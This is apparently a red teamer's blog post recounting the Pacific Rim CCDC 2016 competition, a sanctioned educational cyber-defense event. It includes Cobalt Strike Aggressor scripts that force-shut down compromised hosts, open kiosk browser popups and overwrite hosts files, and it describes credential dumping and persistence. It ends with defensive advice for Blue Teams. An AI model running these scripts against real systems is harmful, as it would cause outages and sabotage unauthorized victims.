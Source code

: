 ```yaml
---
layout: post
title: Red Teaming for Pacific Rim CCDC 2016
summary: TO BE ADDED
---
```


Six weeks ago I had the opportunity to Red Team for [Pacific Rim CCDC](https://www.prccdc.org/). I love doing this competition because it gives me a chance to do things one would never be allowed to do on a real network and it forces me think about a different set of problems than a pentest or red team engagement. In this post I will discuss my thoughts and experiences before, during, and after this year's competition. 

# Preparation

[Last year]({{site.baseurl}}/2015-04-15-how-i-prepared-to-red-team-at-prccdc-2015/) I made a few goals for myself, mostly centered around preparation. About a month before the competition some friends and I collaborated to prepare for the competition.

## Operations Plan
The first piece of preparation is making an Operations Plan. The Ops Plan is a runbook of sorts containing all of the functionality we want to be able to execute during the competition. For each action or attack we listed out copy/paste commands, workflows, and/or tool modules. The goal is to minimize the amount of searching required during the competition. 

I've uploaded a sample from our Ops Plan to GitHub [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/OpsPlan2016.txt). Shoutout to [@sw4mp_f0x](https://twitter.com/sw4mp_f0x), [@beyondnegative](https://twitter.com/beyondnegative), [@ahayden](https://twitter.com/ahayden), and [@primarytyler](https://twitter.com/primarytyler) for working on prep with me.


## Automation
Once we had a foundational Ops Plan in place, the next step was to automate as many of the functions as possible. The competition is frenetic from start to finish, so the ability to execute attacks quickly is critical. The primary attack platform I planned on using was [Cobalt Strike](https://www.cobaltstrike.com/), with [Powershell Empire](http://www.powershellempire.com/) as a secondary platform. 

Cobalt Strike offers an extremely powerful built-in scripting language: [Aggressor](https://www.cobaltstrike.com/help-scripting). Versions of Cobalt Strike prior to 3.0 used [Cortana](http://www.advancedpentest.com/help-scripting-cortana) script, which is incompatible with Aggressor. This was my first foray into using Aggressor script and I am very happy that I dove in. Aggressor scripts provide the ability to extend Cobalt Strike's functionality and GUI with built-in commands as well as using the [Sleep](http://sleep.dashnine.org/manual/) language directly. Since Sleep allows Java objects to be incorporated into scripts, the usage options are nearly limitless.

### Shutdown
After reading Raphael Mudge's resources on Aggressor and Sleep (linked below), I started easy with a CCDC equivalent of *Hello World*: shutting down all selected boxes. 

```perl
popup beacon_bottom {
	menu "Lulz" {
		item "Shutdown Host" {
			prompt_confirm("Are you SURE you want to bounce the box(es)?", "Confirm", lambda({
				blog(@ids,"shutting down");
				bshell(@ids, "shutdown /s /f /t 00 -d up:125:1");
			}, @ids => $1));
		}
	}
}
```
Lines 1-3 configure the GUI, placing the context menu (right click) item *Shutdown Host* under a parent menu of *Lulz*. Lines 4-7 prompt the user for confirmation to shut down all hosts. If the user selects OK, all hosts are issued the shell command `shutdown /s /f /t 00 -d up:125:1`.

### Internet Explorer Popup
Last year we launched Internet Explorer in kiosk mode to Justin Bieber's homepage to spread some Bieber Fever to the Blue Teams. For this year, I wanted to automate this and be able to quickly change the URL Internet Explorer opens.

```perl
item "IE Kiosk Popup" {
		prompt_text("What site do you want to pop up?", "https://google.com", lambda({
			binput(@ids,"C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
			bshell(@ids, "C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
		}, @ids => $1));
}
```
To include this within the *Lulz* context menu parent, simply insert this code before the closing menu curly bracket, like this:

```perl
popup beacon_bottom {
	menu "Lulz" {		
		item "IE Kiosk Popup" { 
			CODE GOES HERE
		}
		item "Shutdown Host" { 
			CODE GOES HERE
		}
	}
}
```

### Host File Stomp
Blue Teams and Red Teams alike use the internet during the competition, researching how to remediate vulnerabilities, looking up that default credential for the router, the list goes on. The difference is that ideally the Blue Team's hosts are owned in multiple ways, so why not use that to our advantage to slow the research efforts? This script stomps the target(s) host file with a selected file and clears the DNS cache.

```perl
		item "Replace Host File" {
			prompt_file_open("Choose a file to replace the current host file:", "hosts.txt", false, lambda({
				bcd(@ids,"c:\\windows\\system32\\drivers\\etc");
				brm(@ids,"hosts");
				blog(@ids,"Uploading file $1 to c:\\windows\\system32\\drivers\\etc\\hosts");
				bupload(@ids,$1);
				bshell(@ids, "ipconfig /flushdns");
				blog(@ids,"File uploaded and DNS flushed. Done!");
			}, @ids => $1));
		}
```

Line 2 prompts the user for a file. Once selected, the file is assigned the `$1` variable and the lambda function is evaluated. The lambda function is used to evaluate the lines within the parenthesis inline, lines 4 - 9 in this case. Those lines handle the removal of the current host file, upload of the selected file, and flushing of the hosts' DNS. 

### Script Files

I've uploaded these and a couple other scripts to my GitHub repo for [Aggressor scripts](https://github.com/bluscreenofjeff/AggressorScripts). These examples hopefully provide enough info to get your mind turning about other devious things you can cook up before next year's competition.

Having the ability to write Aggressor scripts to automate specific Red Team functions during the competition can be a real lifesaver. 

### Aggressor Script Resources:

* [Aggressor Script Intro](https://www.cobaltstrike.com/help-scripting)
* [Aggressor Script Documentation](https://www.cobaltstrike.com/aggressor-script/index.html)
* [My Cobalt Strike Scripts from NECCDC -- Raphael Mudge](http://blog.cobaltstrike.com/2016/03/16/my-cobalt-strike-scripts-from-neccdc/)
* [Cobalt Strike 3.1 - Scripting Beacons -- Raphael Mudge](http://blog.cobaltstrike.com/2015/12/02/cobalt-strike-3-1-scripting-beacons/)
* [Real-Time Feed of Red Team Activity -- Raphael Mudge](http://blog.cobaltstrike.com/2016/01/13/real-time-feed-of-red-team-activity/)
* [Sleep Manual](http://sleep.dashnine.org/manual/)


# The Competition

This year my friend [@sw4mp_f0x](https://twitter.com/sw4mp_f0x) and I were on the Windows Meta Team together, which means we attacked every team's Windows boxes in effort to spread equal *love* to everyone. We both have competed together before, but not against every team; it was an exciting challenge. 

As soon as the competition started there was a mad dash for all teams to find initial access points. To do this we made up IP lists with all hosts for all teams and configured different initial access scripts (such as in Metasploit) to be ready for when new credentials were received. Nothing beats seeing those first few Beacons come rolling in at the start of the day. Once access started getting established it was critical to drop persistence as quickly as possible on as many hosts as possible. We used primarily scripted Aggressor to drop persistence. We came prepared with a few of these scripts but ended up making a few new ones on the fly and at the hotel at night.

With a baseline established, the name of the game was credential management. We needed to keep the credentials fresh and ready to go. With 12 teams and dozens of users per domain, this was not an easy task. In an environment like this (see: not trying to be quiet at all), I like to err on the side of dumping credentials and hashes now just in case I need them later. So once I compromised a domain controller a hashdump wasn't too far behind. You can imagine how Cobalt Strike's credential store looked. While this didn't pose an issue for some hosts, there were hosts present on all teams that shared IP addresses. This meant that any given credential on one of those hosts could belong to one or 12 different teams. Not ideal. 

Overall being on the Windows Meta Team was a challenge and a blast. I came away from the competition having learned some new tricks (like running *explorer.exe* on a sticky keys cmd prompt to use the GUI) and more ideas for both next year's competition and real life tests.

# After the Ruckus

The Blue Team debrief is particularly fun. Throughout the competition I find myself wondering what the Blue Team thinks of a particular attack or annoyance. Wondering if the defenders even know which systems we've compromised. The debrief is the time to answer a lot of those questions. I was able to speak with a few teams during the debrief, which was great.

Here are some of the key points and suggestions I made to Blue Teams:

* Become familiar with Red Team tactics. Knowing the pathways an attacker may try to get into your network will help you block those paths.
* Automate as much as you can. If the Red Team has a script to break something, have a script to fix it. Make sure you follow the rules about not using private scripts.
* Change passwords FREQUENTLY. There were accounts whose credentials didn't change once throughout the competition.
* Disable any account that's not needed or off-limits. If you aren't using built-in accounts, disable them all.
* Remove admin rights from any user or group that doesn't explicitly require that access. Given the size of the Blue Team's network, it may make sense to remove/disable Domain Admin rights entirely on the domain and explicitly assign rights on a per-host basis. For example, perhaps the Blue Team decides to disable all administrative groups in the domain and rely on local accounts with rotating unique passwords per-host. 
* Audit admin rights, account statuses, and new accounts (local and domain) throughout the competition.

# Closing Thoughts

The CCDC competition is a lot of fun. It's thrilling to be able to try attacks or annoy users in ways that are not fit for a production network. Doing that exercises a different part of your brain and hopefully conjure up some ideas that are suitable for real world testing. I can't wait for next year.
